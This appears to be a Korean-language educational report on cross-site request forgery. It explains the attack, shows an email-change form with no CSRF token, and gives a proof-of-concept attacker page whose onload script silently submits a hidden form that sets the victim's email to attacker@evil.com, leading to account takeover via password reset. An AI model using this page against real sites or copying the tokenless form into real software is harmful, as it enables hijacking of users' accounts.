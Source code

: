 # CSRF (Cross-Site Request Forgery) 분석 보고서

## 1. CSRF 란?

**사용자의 의지와 무관하게 공격자가 의도한 행동을 수행하다**

- **정의:** 사용자가 자신의 의지와는 무관하게, 공격자가 의도한 행위(수정, 삭제, 등록 등)를 특정 웹사이트에 요청하게 만드는 공격입니다.
- **원리:** 사용자가 취약한 웹사이트에 로그인되어 있는 상태에서, 공격자가 만든 악성 링크나 페이지에 접근할 때 발생합니다. 브라우저는 자동으로 로그인된 사용자의 인증 정보(쿠키)를 담아 요청을 보내게 됩니다.
- **영향:**
    - **계정 정보 변경:** 사용자의 비밀번호나 이메일 주소가 변경되어 계정을 탈취당할 수 있습니다.
    - **금전적 피해:** 사용자의 계좌에서 돈이 이체되거나, 온라인 쇼핑몰에서 상품이 주문될 수 있습니다.
    - **데이터 손실:** 게시글, 댓글 등 사용자의 데이터가 임의로 삭제되거나 수정될 수 있습니다.

---

## 2. 취약한 코드 분석 (예시)

**문제의 핵심: CSRF 토큰이 없는 폼(Form)**

```html
<!-- 사용자의 이메일 주소를 변경하는 폼 -->
<form action="/change_email" method="POST">
  <input type="email" name="email" value="new_email@example.com">
  <input type="submit" value="이메일 변경">
</form>
```

**핵심 문제점:** 이 폼 요청이 정말로 사용자가 직접 의도한 것인지 확인할 수 있는 수단(CSRF 토큰)이 없습니다. 따라서 다른 사이트에서 위조된 요청이 들어와도 서버는 정상적인 요청으로 판단하고 처리하게 됩니다.

---

## 3. 공격 시나리오: 사용자 계정 탈취

**공격 목표:** 희생자의 이메일 주소를 공격자의 이메일로 변경하여 계정 탈취하기

**공격자가 만든 악성 웹페이지 (`attacker.com`):**

```html
<body onload="document.forms[0].submit()">
  <h3>무료 경품에 당첨되셨습니다!</h3>
  <form action="http://victim.com/change_email" method="POST" style="display:none;">
    <input type="email" name="email" value="attacker@evil.com">
  </form>
</body>
```

**공격 과정:**
1.  희생자는 `victim.com`에 로그인된 상태입니다.
2.  희생자가 이메일이나 메신저를 통해 받은 악성 링크(`attacker.com`)를 클릭합니다.
3.  페이지가 로드되자마자, `onload` 이벤트에 의해 숨겨진 폼이 자동으로 `victim.com`으로 제출됩니다.
4.  브라우저는 이 요청에 `victim.com`의 인증 쿠키를 자동으로 포함하여 전송합니다.
5.  `victim.com` 서버는 인증된 사용자의 정상적인 요청으로 판단하고, 이메일 주소를 `attacker@evil.com`으로 변경합니다.
6.  공격자는 이제 '비밀번호 찾기' 기능으로 계정의 제어권을 완전히 탈취할 수 있습니다.

---